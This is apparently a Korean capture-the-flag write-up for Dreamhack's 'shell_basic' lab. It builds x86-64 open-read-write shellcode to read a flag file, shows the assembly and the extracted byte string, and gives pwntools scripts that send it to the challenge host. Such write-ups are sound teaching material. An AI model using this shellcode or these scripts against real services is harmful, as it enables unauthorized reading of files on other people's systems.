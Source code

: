 ## 📍shell_basic

```
입력한 셸코드를 실행하는 프로그램이 서비스로 등록되어 작동하고 있습니다.

`main` 함수가 아닌 다른 함수들은 execve, execveat 시스템 콜을 사용하지 못하도록 하며, 풀이와 관련이 없는 함수입니다.

flag 파일의 위치와 이름은 `/home/shell_basic/flag_name_is_loooooong`입니다.  
감 잡기 어려우신 분들은 아래 코드를 가지고 먼저 연습해보세요!
```

```
$ cat write.asm
section .text
global _start
_start:
    ;/* write(fd=1, buf='hello', n=48) */
    ;/* push 'hello\x00' */
    mov rax, 0x0a6f6c6c6568
    push rax
    mov rsi, rsp
    push 1
    pop rdi
    push 0x6
    pop rdx
    ;/* call write() */
    push 1
    pop rax
    syscall
$ nasm -f elf64 write.asm
$ objcopy --dump-section .text=write.bin write.o
$ xxd write.bin
00000000: 48b8 6865 6c6c 6f0a 0000 5048 89e6 6a01  H.hello...PH..j.
00000010: 5f6a 065a 6a01 580f 05                   _j.Zj.X..
$ cat write.bin | ./shell_basic
shellcode: hello
[1]    1592460 done                cat write.bin |
       1592461 segmentation fault  ./shell_basic
$
```


#### 해결

우선 execve 시스템콜을 막았다고 하니 orw 셸코드를 사용해보자.

위 파일 경로 `home/shell_basic/flag_name_is_loooooong`을 16진수 리틀 엔디안으로 변환하면 다음과 같다.
![[{0547A58F-151A-423A-89D6-7557434DB5FF}.png]]
```
0x676e6f6f6f6f6f6f6c5f73695f656d616e5f67616c662f63697361625f6c6c6568732f656d6f682f
```

위에서 만든 orw.c 파일에 그대로 파일 경로만 붙여넣기해봤다.
(리눅스에서 실행할 수 있도록 c언어로 된 스켈레톤 코드에 셸코드를 탑재하는 것)
```c
// File name: orw.c
// Compile: gcc -o orw orw.c -masm=intel

__asm__(
        ".global run_sh\n"
        "run_sh:\n"

        "push 0x67\n"
        "mov rax, 0x6e6f6f6f6f6f6f6c5f73695f656d616e5f67616c662f63697361625f6c6c6568732f656d6f682f\n"
        "push rax\n"
        "mov rdi, rsp   # rdi = /tmp/flag'\n"
        "xor rsi, rsi   # rsi = 0 ; RD_ONLY\n"
        "xor rdx, rdx   # rdx = 0\n"
        "mov rax, 2     # rax = 2 ; syscall_open\n"
        "syscall        # open('/home/shell_basic/flag_name_is_loooooong', RD_ONLY, NULL)\n"
        "\n"
        "mov rdi, rax   # rdi = fd\n"
        "mov rsi, rsp\n"
        "sub rsi, 0x30  # rsi = rsp-0x30 # buf\n"
        "mov rdx, 0x30  # rdx = 0x30     # len\n"
        "mov rax, 0x0   # rax = 0        # syscall_read\n"
        "syscall        # read(fd, buf, 0x30)\n"
        "\n"
        "mov rdi, 1    # rdi = 1 # fd = stdout\n"
        "mov rax, 0x1  # rax = 1 # syscall_write\n"
        "syscall       # write(fd, buf, 0x30)\n"
        "\n"
        "xor rdi, rdi   # rdi = 0\n"
        "mov rax, 0x3c  # rax = sys_exit\n"
        "syscall        # exit(0)");

void run_sh();

int main() { run_sh(); }
```

너무 길어서 그런지 에러가 났다.
![[{F112AC67-4468-4629-A03B-7E61CEB00CE7}.png]]

스택에는 8바이트 단위로만 값을 push할 수 있으므로, 위 문자열을 8바이트씩 쪼개준다.
```
0x676e6f6f6f6f6f6f
0x6c5f73695f656d61
0x6e5f67616c662f63
0x697361625f6c6c65
0x68732f656d6f682f
```

다시 push해서 스택에 차례대로 넣었다.
```c
"move rax, 0x676e6f6f6f6f6f6f\n"
"push rax\n"
"move rax, 0x6c5f73695f656d61\n"
"push rax\n"
"move rax, 0x6e5f67616c662f63\n"
"push rax\n"
"move rax, 0x697361625f6c6c65\n"
"push rax\n"
"move rax, 0x68732f656d6f682f\n"
"push rax\n"
```

#### 셸코드
```c
// File name: orw.c
// Compile: gcc -o orw orw.c -masm=intel

__asm__(
        ".global run_sh\n"
        "run_sh:\n"
        
		"push 0x0\n"
        "mov rax, 0x676e6f6f6f6f6f6f\n"
		"push rax\n"
		"mov rax, 0x6c5f73695f656d61\n"
		"push rax\n"
		"mov rax, 0x6e5f67616c662f63\n"
		"push rax\n"
		"mov rax, 0x697361625f6c6c65\n"
		"push rax\n"
		"mov rax, 0x68732f656d6f682f\n"
		"push rax\n"
        "mov rdi, rsp   # rdi = /home/shell_basic/flag_name_is_loooooong'\n"
        "xor rsi, rsi   # rsi = 0 ; RD_ONLY\n"
        "xor rdx, rdx   # rdx = 0\n"
        "mov rax, 2     # rax = 2 ; syscall_open\n"
        "syscall        # open('/home/shell_basic/flag_name_is_loooooong', RD_ONLY, NULL)\n"
        "\n"
        "mov rdi, rax   # rdi = fd\n"
        "mov rsi, rsp\n"
        "sub rsi, 0x30  # rsi = rsp-0x30 # buf\n"
        "mov rdx, 0x30  # rdx = 0x30     # len\n"
        "mov rax, 0x0   # rax = 0        # syscall_read\n"
        "syscall        # read(fd, buf, 0x30)\n"
        "\n"
        "mov rdi, 1    # rdi = 1 # fd = stdout\n"
        "mov rax, 0x1  # rax = 1 # syscall_write\n"
        "syscall       # write(fd, buf, 0x30)\n"
        "\n"
        "xor rdi, rdi   # rdi = 0\n"
        "mov rax, 0x3c  # rax = sys_exit\n"
        "syscall        # exit(0)");

void run_sh();

int main() { run_sh(); }
```

![[{281FB2EA-CFE7-4365-8B7C-7214D4CA793F}.png]]

`-d`는 디스어셈블 옵션이다.
여기서 orw에 필요한 셸코드만 추출한다.

![[{40832031-ABAA-4B56-B6B3-F69B5291DEBE}.png]]

```
\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05
```

원래 이걸 통째로 shellcode: 에 입력하려고 했는데 그게 아닌 것 같다...
![[{8D2E4A2E-B184-4418-BC57-66FEB19E781B}.png]]

pwntools를 사용해서 파이썬 스크립트를 작성해봤다.
```python
from pwn import *

context.arch = "amd64"
p = remote("host3.dreamhack.games", 14009)

shellcode = b"\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05"
p.sendafter(b": ", shellcode)
p.interactive()
```

파일을 실행해주면 플래그가 반환된다.

![[{0877EAEA-773E-47BB-8DED-E6E0440552F4}.png]]


## 📍shell_basic 2

일단 orw 셸 코드를 작성해야 한다.

```c
//orw
int fd = open("/home/shell_basic/flag_name_is_loooooong", RD_ONLY, NULL)
read(fd, buf, 0x30);
write(1, buf, 0x30);
```

위 코드처럼 open-read-write를 하면 된다.
셸 코드를 작성해주는 pwntools의 `shellcraft()` 함수를 사용해 보자.

```python
from pwn import *

p = remote("host3.dreamhack.games", 10178)

context.arch = "amd64"
path = "/home/shell_basic/flag_name_is_loooooong"

shellcode = shellcraft.open(path)
# open 함수 결과는 rax 레지스터에 저장된다고 한다. fd = rax
shellcode += shellcraft.read('rax', 'rsp', 0x30)   # read(fd, buf, 0x30)
shellcode += shellcraft.write(1, 'rsp', 0x30)      # write(1, buf, 0x30)
shellcode = asm(shellcode)   # shellcode를 기계어로 변환하여 대입

payload = shellcode
p.sendlineafter("shellcode: ", payload)
print(p.recv(0x30))
```

![[{0A93E382-E201-49BE-86FA-C61D122A1C72}.png]]

성공 🚩